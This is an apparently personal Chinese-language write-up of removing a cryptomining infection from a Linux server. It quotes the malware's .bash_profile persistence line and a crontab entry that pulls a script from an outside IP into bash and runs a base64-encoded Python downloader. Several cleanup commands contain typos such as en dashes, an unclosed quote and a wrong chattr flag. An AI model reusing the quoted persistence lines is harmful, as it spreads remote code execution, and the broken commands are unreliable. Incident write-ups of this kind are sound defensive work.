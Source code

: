 # 一次挖坑程序的解决记录

CPU 爆满, 无法登陆到程序上, 内存直接飞起, 😮

执行 top 看到 dbusex 程序非常占内存, 一度将CPU飙到飞起

ps –aux | grep dbuse



发现存在一堆挖矿进程：
dbusexxx
wget xxxx
python xxxx

先手工杀进程，把cpu负荷降下来：

```shell
ps -aux | egrep "dbuse|sendmail|wget|python: | awk '{print $2}' | xargs kill
```

执行完毕以后发现程序自动重启, 



如果有时间你可以一直循环杀.... 😁

```shell
while true ; do ps -aux | egrep "dbuse|sendmail|wget|python" | awk '{print $2}' | xargs kill ; done
```



 查看环境变量.bash_profile时发现存在如下异常：

```shell
cp -f -r – /bin/bprofr /bin/dbused 2>/dev/null && /bin/dbused -c >/dev/null 2>&1 && rm -rf – /bin/dbused 2>/dev/null
```



发现挖矿程序/bin/bprofr

先删了再说，rm –rf /bin/bprofr，执行时报如下错误：
rm –rf /bin/bprofr : Operation not permitted

chattr –I /bin/bprofr
chattr –a /bin/bprofr
lsattr /bin/bprofr

然后再次删除, 就oK, 但是太年轻了, 定时任务中也存在问题



```shell
crontab -l

* * * * * (curl -s http://205.185.113.151/xmi||wget -q -O - http://205.185.113.151/xmi)|bash -sh; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDUuMTg1LjExMy4xNTEvZC5weSIpLnJlYWQoKSkn | base64 -d | bash -
```



然后删除 , 还是报错了

```shell
crontab -e
chattr -I /bin/bprofr
chattr -a /bin/bprofr
lsattr /bin/bprofr
```





